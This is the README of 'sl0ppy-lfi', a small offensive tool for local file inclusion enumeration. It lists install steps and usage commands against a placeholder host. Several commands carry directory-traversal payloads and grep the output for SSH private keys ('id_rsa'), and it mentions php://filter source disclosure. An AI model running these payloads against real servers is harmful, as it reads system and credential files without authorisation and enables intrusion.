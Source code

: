 # sl0ppy-lfi
A small lfi enum tool, i upgraded the original source a bits here and there.  

# Added searches
* linux local files 
* linux log files 
* Linux proc files
* linux apache files
* linux .ssh files
* linux other files 

* windows local files
* windows log files
* windows config files
* windows other stuff    
* and alot more 

# !Added php://filther encoding! 

# install
* make all files executable with this command
* chmod +x install && ./install

# Usage 
* sl0ppy-lfi  
* sl0ppy-lfi-fw 


## {!} change the static set user and hash out the read -p "Please Enter Systems Username: " on all 4 blocks {!}
* Or use the pre-default implemented(read -p), and submit system user when asked for it.

# Usage sl0ppy-lfi  (old-original-file soon to be fully replaced by sl0ppy-lfi-fw) 

# Enum all sl0ppy-lfi
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../` 


# Enum specific stuff like only libc
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "libc"`
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "id_rsa"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "libc"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "id_rsa"`

# Output Enum 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= > output && cat output`  

# Usage sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 

# Usage sl0ppy-filter-enc-lfi
./sl0ppy-filter-enc-lfi http://server.vulnerable.com/index.php > sl0ppy-enc.txt || cat /home/x0/sl0ppy-lfi/sl0ppy-enc.txt

# Usage sl0ppy-lfi-fw (sl0ppy-lfi-framework)

# Usage 
* ./sl0ppy-lfi-fw 
* Choice 1 for windows based lfi file checks
* Choise 2 for linux based lfi file checks
* Cboise 3 for linux & windows lfi file checks
* choise 4 for PHP://filther encoding.. (Temp not working in framework, looking to fix it on short notice)
* Enter the lfi url when it ask for it like this.. http://server.vulnerable.com/index.php?page=` 
* Else as http://server.vulnerable.com/index.php?page=../../../../../../../../../../
* Or any other lfi param or pages... 

# Examples sl0ppy-lfi-fw

# usage Windows-lfi 
* ./sl0ppy-lfi-fw
* option 1
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# usage Windows-lfi 
* ./sl0ppy-lfi-fw
* option 2
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# usage Windows-lfi 
* ./sl0ppy-lfi-fw
* option 3
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# !(sum issues in fw option 4 not working atm, working on fixing it...)
# Usage php://Filther-encoding 
* ./sl0ppy-lfi-fw 
* * option 4 
* enter url when it ask for it like this http://server.vulnerable.com/index.php
